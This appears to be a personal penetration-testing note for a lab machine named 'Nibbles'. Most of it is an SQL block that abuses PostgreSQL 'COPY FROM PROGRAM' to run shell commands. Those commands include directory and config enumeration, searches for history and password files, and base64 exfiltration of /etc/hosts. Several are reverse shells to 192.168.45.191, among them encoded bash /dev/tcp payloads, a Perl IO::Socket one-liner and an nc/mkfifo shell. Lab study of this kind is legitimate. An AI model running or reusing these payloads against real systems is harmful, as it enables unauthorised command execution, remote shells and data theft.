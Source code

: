 # Nibbles Notes

## Data 

IP: 192.168.182.47
OS: Linux
Arch: Debian 10 Buster
Hostname: 
DNS:
Domain:  / Domain SID:
Machine Purpose: 
Services: 21, 22,80, 139, 445, 5437 (Postgresql)
Service Languages:
Users:
Email and Username Formatting:
Credentials:

## Objectives

`\#\# Target Map ![](Nibbles-map.excalidraw.md)`

#### Machine Connects to list and reason:

[[]] - Reason X

## Data Collected

#### Credentials
```
```

#### HUMINT


#### Solution Inventory Map

```sql
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);

COPY cmd_exec FROM PROGRAM 'ls -la /home/wilson';
COPY cmd_exec FROM PROGRAM 'ls -la /home/wilson/ftp';
COPY cmd_exec FROM PROGRAM 'ls -la /';
COPY cmd_exec FROM PROGRAM 'ls -la /opt';

COPY cmd_exec FROM PROGRAM 'ls -la /srv';
COPY cmd_exec FROM PROGRAM 'ls -la /srv/ftp/';
COPY cmd_exec FROM PROGRAM 'ls -la /home'; -- No postgresql key
COPY cmd_exec FROM PROGRAM 'find / -type f -name page2.html 2>/dev/null';
COPY cmd_exec FROM PROGRAM 'ls -la /var/www';

COPY cmd_exec FROM PROGRAM 'ls -la /var/www/html';
COPY cmd_exec FROM PROGRAM 'ls -la /etc/apache2/sites-enabled/000-default.conf';
COPY cmd_exec FROM PROGRAM 'cat /etc/apache2/sites-enabled/000-default.conf'; -- breaks the postgresql

-- Perms!!  
-- Create a .ssh, id_rsa! 
COPY cmd_exec FROM PROGRAM 'mkdir /home/wilson/.ssh'; -- no permission to do so

COPY cmd_exec FROM PROGRAM 'echo VGVzdGluZyAxMjMK | base64 -d > /tmp/test.txt';
COPY cmd_exec FROM PROGRAM 'cat /tmp/test.txt';

COPY cmd_exec FROM PROGRAM 'which nohup';
-- /usr/bin/nohup

echo "nohup /dev/shm & "

COPY cmd_exec FROM PROGRAM 'which curl'; -- wget /usr/bin/wget

COPY cmd_exec FROM PROGRAM 'wget ';

-- Use UTF-16LE by mistake
COPY cmd_exec FROM PROGRAM 'echo LwBiAGkAbgAvAGIAYQBzAGgAIAAtAGkAIAA+ACYAIAAvAGQAZQB2AC8AdABjAHAALwAxADkAMgAuADEANgA4AC4ANAA1AC4AMQA5ADEALwA2ADkANgA5ACAAMAA+ACYAMQAKAA==
 | base64 -d > /dev/shm/bash-i.sh';
COPY cmd_exec FROM PROGRAM 'nohup /dev/shm/bash-i.sh &';

COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.191:8443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';

-- does not work:
COPY cmd_exec FROM PROGRAM 'echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDUuMTkxLzk2OTYgMD4mMQo=
 | base64 -d | /bin/bash';


COPY cmd_exec FROM PROGRAM 'find / -type f \( -name *_hist -o -name *_history \) -exec ls -l {} \; 2>/dev/null';

-- Fails
COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.191 9696 >/tmp/f';
-- Fails
COPY cmd_exec FROM PROGRAM 'echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDUuMTkxLzE1MDAwIDA+JjE= | base64 -d | bash';

COPY cmd_exec FROM PROGRAM 'find . -type d -name *onf* 2>/dev/null | ls | xargs grep -rie ''passw''';


```

```
COPY files FROM PROGRAM ‘perl -MIO -e ‘’$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,”192.168.45.191:9696");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;’’’;
```

```sql
COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.145.191:9696");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';;																					

SELECT * FROM cmd_exec;

-- Cant chmod 
-- 000-.conf

-- exfil with base64 worked!
COPY cmd_exec FROM PROGRAM 'cat /etc/hosts |base64 ';
```
#### Todo 

- read credentials from box
- write id_rsa, shell onto the box and use nohup to execute it so that it does not try to send stdout to the table


#### Timeline of tasks completed

- Automated Recon
- Searchsploited:
	- PostgreSQL
	- Apache has local PrivEsc - linux/local/46676.php
- Manual Web:
	- Need to Directory bust


[miguelaeh on Github Issue states:](https://github.com/bitnami/charts/issues/5150) *"The databases `template0` and `template1` are used to create new database when using the `CREATE DATABASE` command"*

There are no tables

[The default Postgres user is `postgres`](https://enterprisedb.com/postgres-tutorials/connecting-postgresql-using-psql-and-pgadmin) 